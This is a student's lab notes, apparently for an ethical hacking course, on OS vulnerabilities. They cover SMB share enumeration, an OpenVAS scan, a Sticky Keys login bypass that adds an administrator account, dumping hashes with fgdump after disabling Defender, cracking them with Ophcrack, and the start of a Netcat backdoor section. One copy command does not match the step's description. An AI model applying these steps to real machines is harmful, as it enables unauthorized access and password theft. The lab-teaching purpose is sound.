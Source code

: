# EHD Practical 9 - OS Vulnerabilities

###### tags: #EHD 

## Table of Contents
```toc
```

## Windows Vulnerabilities
### View Shared Resources on Windows Systems
**On Win10 VM**
1. Repeat `net view \\Win-10 IP` to show a list of available shared folders
2. Repeat the `net view` command on another Win10 VM
3. Run `net use Z: \\Win10-IP\shared` to map shared folder to Z drive
4. Run `dir Z: \\Win10-IP\shared`
5. Type `nbtstat /?` for help
6. Type `nbtstat -a Win10-IP`

### OpenVAS
> OpenVAS  is an open source vulnerability assessment software like Nessus

1. Power on OpenVAS image
2. At the login screen, note the IP address of the OpenVAS image
3. On web browser on another VM, browser to the OpenVAS IP and add exception for the security certificate
4. Login to the Greenbone Security Manager with username `admin` and password `admin`
5. Power on and use web-server2 as the target and take note of its IP address
6. In the Web Browser, in the Greenbone Security Manager, under the Configuration menu, select **Targets**
7. Click on the star icon on the top left corner to create a **New Target**
8. Check that the Manual radio button is selected and enter IP address of web-server2
9. Click **Create**
10. Under the Scans menu, select Tasks
11. Click on the star icon in the top left corner to create a **New Task**
12. Enter a name for a task
13. For Scan Config, choose the default **Full and fast**
14. Click **Create**
15. Under Actions, click on the Play icon to start the scan
16. When the scan is completed, the status will be updated to **Done**
17. Under **Reports**, click to view the report to view the vulnerabilities found
18. When clicking on the vulnerability, details will be displayed
19. Under the **Configuration** menu, select Scan Configs
20. Click on Full and fast to see what type of NVTs (Network Vulnerability Tests) are included in the scan
21. To shut down OpenVAS, select the **Maintenance** and choose **Power**

### SMB/CIFS
> Server Message Block (SMB) or CIFS (Common Internet File System) can be used to share resources between computers running Windows or Linux

**On Kali VM**
1. To list out shared folders on a remote system, use the `smbclient` command (Use `-U` option to specify Windows 10 user account)
```
smbclient -L Win10-IP -U admin 
```
2. Start Wireshark to capture the network traffic
3. Use the following command to connect shared folder on Win10:
```
smbclient //Win10-IP/shared
```
4. Press <kbd>Enter</kbd> if asked for password
5. If there is a `NT_STATUS_ACCESS_DENIED` message, specify Win10 username
```
smbclient //Win10-IP/shared -U admin
``` 
6. At the SMB prompt, type `ls` to list contents of the share
7. Use the `get` command to download the text file to Kali
```
get test.txt
```
8. Type exit to end the connection
9. Stop Wireshark. View the TCP packets with the SMB protocol connecting to port 445 on Win10

### Accessing Windows without Logging In (Sticky Keys)
1. Shutdown Win10 VM
2. Use ISO image file 

![](https://i.imgur.com/dCGpCq9.png)

3. Start the Win10 VM. When VMWare word appears, press <kbd>F2</kbd> to enter BIOS setup utility
4. In the Boot menu, select CD-ROM Drive and bring it to the top
5. Press <kbd>F10</kbd> to save and exit
6. Win10 VM will boot into Kali using the ISO file
7. Login with username `root` and password `toor` (or username `kali` and password `kali`)
8. Type `fdisk -l` to view the Windows partition
9. Windows partition may be listed as `/dev/sda2`
10. Type `mkdir /mnt/sda2` to create a mount point
11. Type `mount /dev/sda2/ /mnt/sda2` to mount the Windows partition
12. Type `ls /mnt/sda2` to list contents of the Windows partition
13. Type `cd /mnt/sda2/Windows/System32`
14. Type `cp sethc.exe sethc.exe.bak` to make a copy of the `sethc.exe` file
15. Type `cp cmd.exe sethc.exe.bak` to overwrite the original file with the Command Prompt executable
16. Type `init 0` to shutdown
17. Set the CD/DVD back to "Use Physical Drive"
18. Start up the Win10 VM
19. At the login screen, press the shift key 5 times quickly
20. In the Command Prompt, type:
```
net user hacker 1qwer$#@! /add
net localgroup administrators hacker /add
exit
```

21. Restart the Win10 VM to refresh and login to the newly added user

### Windows Password Cracking
> Ophcrack is an open source Windows password cracker that uses rainbow tables
> - May not work with antivirus software which can flag it as a Trojan

**On Win10 VM**
<u>Using fgdump</u>
1. Disable the Windows Defender to prevent anti-malware from detecting fgdump
2. Create a folder `C:\ophcrack` for storing the Ophcrack files
3. Download the fgdump program and copy it into `C:\ophcrack`
4. Launch the Command Prompt and move to the following directory:
```
cd C:\ophcrack\fgdump-2.1.0
```
5. On the Command Prompt, run fgdump to dump out hashed passwords of the current system
6. The hashed passwords will be stored on the file `127.0.0.1.pwdump`
7. Download the Ophcrack installation file and Vista Free rainbow tables
8. Run the x64 version of `ophcrack.exe`
9. Click on **Tables** and select the downloaded folder with Vista Free rainbow tables
10. On the **Load** menu, select the PWDUMP file
11. Click **Crack** to start the password cracking

![](https://i.imgur.com/MnSXD0u.png)

### Netcat
> A backdoor is a program installed secretly on the victim's computer that opens a port for the attacker
> Netcat will be used to open a port on the victim's computer

**On Win10 VM**
1. Install nmap for Windows
2. On the Command Prompt, run Netcat with the help option to see the available options
```
ncat -h
```
3. Run ncat to se